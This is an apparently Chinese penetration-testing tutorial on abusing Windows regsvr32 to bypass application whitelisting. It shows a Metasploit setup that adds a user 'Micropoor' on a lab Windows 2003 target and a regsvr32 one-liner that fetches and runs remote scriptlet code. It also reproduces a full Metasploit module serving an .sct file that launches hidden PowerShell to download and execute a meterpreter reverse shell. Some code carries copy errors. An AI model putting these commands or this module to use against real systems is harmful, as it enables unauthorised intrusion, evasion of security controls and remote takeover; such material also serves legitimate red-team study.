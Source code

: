 ### 11.9 基于白名单Regsvr32执行payload（九）

**Regsvr32简介：**

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\\system32文件夹下；2000系统的regsvr32.exe在winnt\\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

说明：Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

Windows 2003 默认位置：

    C:\WINDOWS\SysWOW64\regsvr32.exe
    C:\WINDOWS\system32\regsvr32.exe
    
        

攻击机：192.168.1.4 Debian-
靶机： 192.168.1.119 Windows 2003

msf 已内置auxiliary版本的regsvr32\_command\_delivery\_server，但是最新版已经无exploit版本regsvr32，文章结尾补充。

**配置攻击机msf：**

    
```
msf auxiliary(server/regsvr32_command_delivery_server) > use auxiliary/server/regsvr32_command_delivery_server
    msf auxiliary(server/regsvr32_command_delivery_server) > set CMD net user Micropoor Micropoor /add
    CMD => net user Micropoor Micropoor /add
    msf auxiliary(server/regsvr32_command_delivery_server) > exploit 
    
    [*] Using URL: http://0.0.0.0:8080/ybn7xESQYCGv
    [*] Local IP: http://192.168.1.4:8080/ybn7xESQYCGv
    [*] Server started.
    [*] Run the following command on the target machine:
    
    regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll
```

    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160333162.png%23pic_center)-
**靶机执行：**

    regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160348923.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160356692.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160402858.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160409883.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**附：powershell 版 Regsvr32**-
regsvr32\_applocker\_bypass\_server.rb

  
```

    
    # This module requires Metasploit: http://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit‐framework
    
    ## 
    
    class MetasploitModule < Msf::Exploit::Remote
    Rank = ManualRanking 
    
    include Msf::Exploit::Powershell
    include Msf::Exploit::Remote::HttpServer 
    
    def initialize(info = {})
    super(update_info(info,
    'Name' => 'Regsvr32.exe (.sct) Application Whitelisting Bypass Serve r', 'Description' => %q(
    This module simplifies the Regsvr32.exe Application Whitelisting Bypass technique.
    The module creates a web server that hosts an .sct file. When the user types the provided regsvr32 command on a system, regsvr32 will request the .sct file and then execute the included PowerShell command.
    This command then downloads and executes the specified payload (similar to the web_delivery module with PSH).
    Both web requests (i.e., the .sct file and PowerShell download and execute) can occur on the same port.
    ),
    
    'License' => MSF_LICENSE,
    'Author' =>
    [
    'Casey Smith', # AppLocker bypass research and vulnerability discover y(\@subTee)
    'Trenton Ivey', # MSF Module (kn0)
    ],
    'DefaultOptions' =>
    {
    'Payload' => 'windows/meterpreter/reverse_tcp'
    },
    'Targets' => [['PSH', {}]],
    'Platform' => %w(win),
    'Arch' => [ARCH_X86, ARCH_X86_64],
    'DefaultTarget' => 0,
    'DisclosureDate' => 'Apr 19 2016',
    'References' =>
    [
    ['URL', 'http://subt0x10.blogspot.com/2016/04/bypass‐application‐whitelisting‐script.html']
    ]
    ))
    end 
    
    def primer
    print_status('Run the following command on the target machine:')
    print_line("regsvr32 /s /n /u /i:\#{get_uri}.sct scrobj.dll")
    end 
    
    def on_request_uri(cli, _request)
    # If the resource request ends with '.sct', serve the .sct file
    # Otherwise, serve the PowerShell payload
    if _request.raw_uri =~ /\.sct$/
    serve_sct_file
    else
    serve_psh_payload
    end
    end 
    
    def serve_sct_file
    print_status("Handling request for the .sct file from #{cli.peerhost}")
    ignore_cert = Rex::Powershell::PshMethods.ignore_ssl_certificate if ssl
    download_string = Rex::Powershell::PshMethods.proxy_aware_download_and_exec_string(get_uri)
    download_and_run = "#{ignore_cert}#{download_string}"
    psh_command = generate_psh_command_line(
    noprofile: true,
    windowstyle: 'hidden',
    command: download_and_run
    )
    data = gen_sct_file(psh_command)
    send_response(cli, data, 'Content‐Type' => 'text/plain')
    end 
    
    def serve_psh_payload
    print_status("Delivering payload to #{cli.peerhost}")
    data = cmd_psh_payload(payload.encoded,
    payload_instance.arch.first,
    remove_comspec: true,
    use_single_quotes: true
    )
    send_response(cli,data,'Content‐Type' => 'application/octet‐stream')
    end 
    
    def rand_class_id
    "#{Rex::Text.rand_text_hex 8}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex12}"
    end 
    
    def gen_sct_file(command)
    %{<?XML version="1.0"?><scriptlet><registrationprogid="\#{rand_text_a lphanumeric 8}"
    classid="{#{rand_class_id}}"><script><![CDATA[ var r = ne wActiveXObject("WScript.Shell").Run("#{command}",0);]]><script></registration></scriptlet>}
    end 
    
    end
    
        
```


使用方法：

   
```
 copy regsvr32_applocker_bypass_server.rb to /usr/share/metasploit-framework/modules/exploits/windows/misc
```

    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010160451511.png%23pic_center)

* * *